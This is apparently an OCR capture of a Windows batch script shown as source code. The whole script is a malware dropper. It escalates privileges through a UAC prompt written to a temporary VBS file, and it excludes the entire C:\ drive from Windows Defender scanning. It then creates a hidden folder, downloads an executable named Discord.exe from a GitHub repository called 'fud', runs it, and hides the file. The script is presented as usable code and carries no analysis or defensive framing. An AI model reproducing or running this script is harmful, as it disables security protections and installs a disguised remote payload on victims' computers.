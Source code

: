 ----------------------------------------------------------------------------------------------------------------:
powershell -window hidden -command ""
:----------------------------------------------------------------------------------------------------------------:
    IF "%PROCESSOR_ARCHITECTURE%" EQU "amd64" (
>nul 2>&1 "%SYSTEMROOT%\SysWOW64\cacls.exe" "%SYSTEMROOT%\SysWOW64\config\system"
) ELSE (
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"
)
:----------------------------------------------------------------------------------------------------------------:
if '%errorlevel%' NEQ '0' (
    goto UACPrompt
) else ( goto gotAdmin )
:----------------------------------------------------------------------------------------------------------------:
:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params= %*
    echo UAC.ShellExecute "cmd.exe", "/c ""%~s0"" %params:"=""%", "", "runas", 1 >> "%temp%\getadmin.vbs
:----------------------------------------------------------------------------------------------------------------:
    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B
:----------------------------------------------------------------------------------------------------------------:
:gotAdmin
    pushd "%CD%"
    CD /D "%~dp0
:----------------------------------------------------------------------------------------------------------------:
powershell.exe -command "Add-MpPreference -ExclusionPath "C:\
:----------------------------------------------------------------------------------------------------------------:
cd "C:\Users\%USERNAME%\AppData\Local"
mkdir "Anon"
attrib +h "Anon" /s /d
cd C:\Users\%USERNAME%\AppData\Local\Anon" 
:----------------------------------------------------------------------------------------------------------------:
Powershell -Command "Invoke-Webrequest 'https://github.com/AnonAm93/fud/raw/main/Discord.exe' -OutFile Discord.exe"
start Discord.exe
attrib +h "C:\Users\%USERNAME%\AppData\Local\Anon\Discord.exe" /s /d
:----------------------------------------------------------------------------------------------------------------:
